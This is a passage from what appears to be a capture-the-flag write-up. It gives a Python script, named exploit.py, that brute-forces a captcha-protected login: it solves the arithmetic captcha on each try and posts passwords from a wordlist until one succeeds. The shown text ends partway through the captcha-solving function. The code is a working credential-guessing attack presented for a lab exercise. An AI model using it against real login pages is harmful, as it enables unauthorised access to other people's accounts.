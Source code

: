 ## Password enumeration

- And after we found the valid user, we will go to enumerate the valid password for the valid username that we found in the same way.
- Use the passwords list in the required files of the room.
```python
def password_enum(username,url,passwords_list):
    with open(f'{passwords_list}','r') as file:    # Access the path of passwords list.
        for password in file:
            password = password.strip()
            captcha_code = get_captcha_code(url)
            data = {"username": username, "password": password, "captcha": captcha_code}
            response = requests.post(url, data=data) 
            
            if f"Invalid password for user &#39;{username}&#39;" in response.text:
                print(colored("Invalid password.",'red'))
            else:
                print(colored("Valid password is found: "+ password,"green")) 
                return password
```
- No problem providing the code with some arguments to easily pass the lists and the URL of the machine.
```python
def parse_args():
    example = '''
    Example:
    python3 exploit.py -u http://Target_IP/login -ul /path/usernames.txt -pl /path/passwords.txt"
    '''
    parser = ArgumentParser(epilog=example,description='Retrieve the valid credentials using a valid captcha code')
    parser.add_argument('-u', '--url', required=True, help='The target URL')
    parser.add_argument('-ul', '--usernames-list', required=True, type= str, help='Pass the usernames list path')
    parser.add_argument('-pl', '--passwords-list', required=True, help='Pass the passwords list path')
    args = parser.parse_args()
    return args
```
- Finally, we will retrieve the valid credentials.
```python
def main():
    args = parse_args() 
    username = username_enum(args.url, args.usernames_list)
    password = password_enum(username, args.url,args.passwords_list)
    
    print("The valid credentials found:")
    print(f"Username: {username}")
    print(f"Password: {password}")


if __name__ == "__main__":
    main()
```
- The full script will be like that:
```python
import requests
from termcolor import colored
from re import search, sub, split
from argparse import ArgumentParser

def get_captcha_code(url):
        data = {"username": "sec0gh", "password": "sec0gh"}
        response = requests.post(url, data=data)
        captcha_Str = search(r'\d+\s*[-+*]\s*\d+ = \?', response.text)
```